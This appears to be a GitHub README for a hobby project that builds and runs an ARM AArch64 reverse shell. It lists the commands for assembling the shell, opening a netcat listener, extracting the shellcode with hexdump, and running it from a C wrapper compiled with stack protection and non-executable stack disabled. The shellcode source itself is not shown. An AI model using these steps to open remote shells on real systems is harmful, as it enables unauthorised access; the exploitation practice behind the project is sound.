 # ARM-Shellcode 🐚
ARM AARCH64 Reverse Shell.

> Note 💡
I am still fixing the ASM code with the prompt to be fully functional and cooperative with the wrapper code. For some reason, I am getting an unbelievable amount of null-bytes within it upon extracting the shellcode. That doesn't appear to happen with `arm-revshell.s`. I will be solving this soon.

## Custom Prompt PoC
<img width="559" alt="image" src="https://github.com/0xXyc/ARM-Reverse-Shell/assets/42036798/f7c42cdd-cb4c-43df-b4d6-13064b5e518e">

## Wrapper Code PoC
<img width="513" alt="image" src="https://github.com/0xXyc/ARM-Reverse-Shell/assets/42036798/5a54251b-5c07-4ef1-bd81-5582e2f9e2d9">

# Compiling 🛠️
## Linux/AARCH64 as a guest OS on a MAC or other ARM-based device
`as arm-revshell.s -o arm-revshell.o && ld arm-revshell.o -o arm-revshell`

### Begin a Netcat Listener 
`nc -lnvp 1337`

### Execute

Then, run `./arm-revshell` to execute.

## x86-64 host OS, but you want to run/compile for AARCH64
`aarch-linux-gnu-as arm-revshell.s -o arm-revshell.o && aarch-linux-gnu-ld arm-revshell.o -o arm-revshell`

### Begin a Netcat Listener
`nc -lnvp 1337`

### Execute
Then, run `qemu-aarch64 ./arm-revshell` to execute.`

## Utilizing the Shellcode "Wrapper"
This is to show you that we can achieve the same cyber result, just in a different executable format. It also goes to show how easily it is to "fit" shellcode into places.

**First, we must use `objcopy` to save the binary object to a `.bin` file so we can convert it into an easily copiable format:**
`objcopy -O binary arm-revshell arm-revshell.bin`

**Then, we need to utilize `hexdump` to "carve" out the shellcode from the binary object:**
`hexdump -v -e '"\\""x" 1/1 "%02x" ""' arm-revshell > shellcode.txt`

Lastly, we need to copy the contents of `shellcode.txt` into the `shellcode[]` buffer, within the `shellcode-exec.c` file.

### Compile the "Wrapper"
`gcc shellcode-exec.c -o shellcode-exec -z execstack -fno-stack-protector`

## Reverse Shell Time!!!
We can now easily call our shellcode within a C program.

**Start a Netcat Listener:**
`nc -lnvp 1337`

**Execute the program:**
`./shellcode-exec`

**CONGRATS, SHELLCODE EXECUTED! ENJOY!**


